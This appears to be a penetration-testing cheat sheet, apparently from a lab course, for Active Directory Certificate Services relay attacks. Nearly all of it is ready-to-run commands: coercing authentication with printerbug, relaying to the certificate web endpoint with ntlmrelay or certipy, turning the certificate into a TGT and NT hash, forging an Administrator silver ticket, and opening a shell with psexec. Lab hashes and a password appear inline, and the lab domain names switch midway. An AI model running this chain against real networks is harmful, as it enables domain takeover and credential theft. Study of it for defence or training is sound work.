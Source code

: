 #### After coercion ntlmrelay will relay over HTTP to the web endpoint and return a base64 certificate.&#x20;

```bash
# Decode certificate
echo -n "MIIRPQIBAzCCEPcGCSqGSIb3DQEHAaCCEOgEghDkMIIQ4DCCBxcGCSqGSIb3DQEHBqCCBwgwggcEAgEAMI<SNIP>U6EWbi/ttH4BAjUKtJ9ygRfRg==" | base64 -d > ws01.pfx
```

#### Get TGT ticket and AS-REP encryption key

```sh
python3 gettgtpkinit.py -dc-ip 172.16.117.3 -cert-pfx ws01.pfx 'INLANEFREIGHT.LOCAL/WS01$' ws01.ccache
```

#### Retrieve the NT hash

```bash
KRB5CCNAME=ws01.ccache python3 getnthash.py 'INLANEFREIGHT.LOCAL/WS01$' -key 917ec3b9d13dfb69e42ee05e09a5bf4ac4e52b7b677f1b22412e4deba644ebb2
```

#### Forge a silver ticket

```bash
# Lookup SID
lookupsid.py 'INLANEFREIGHT.LOCAL/WS01$'@172.16.117.3 -hashes :3d3a72af94548ebc7755287a88476460

# Forge silver ticket
ticketer.py -nthash 3d3a72af94548ebc7755287a88476460 -domain-sid S-1-5-21-1207890233-375443991-2397730614 -domain zencorp.local -spn cifs/ws01.zencorp.local Administrator

# Get a shell
KRB5CCNAME=Administrator.ccache psexec.py -k -no-pass ws01.zencorp.local
```

### <mark style="color:yellow;">Certipy</mark> <mark style="color:yellow;"></mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">**AD CS attacks**</mark>

```bash
# Run certipy relay
sudo certipy relay -target "http://172.16.117.3" -template Machine

# Trigger printerbug 
python3 printerbug.py zencorp/plaintext$:'o6@ekK5#rlw2rAe'@172.16.117.50 172.16.117.30

# Use auth command to obtain the hash
certipy auth -pfx ws01.pfx -dc-ip 172.16.117.3
```

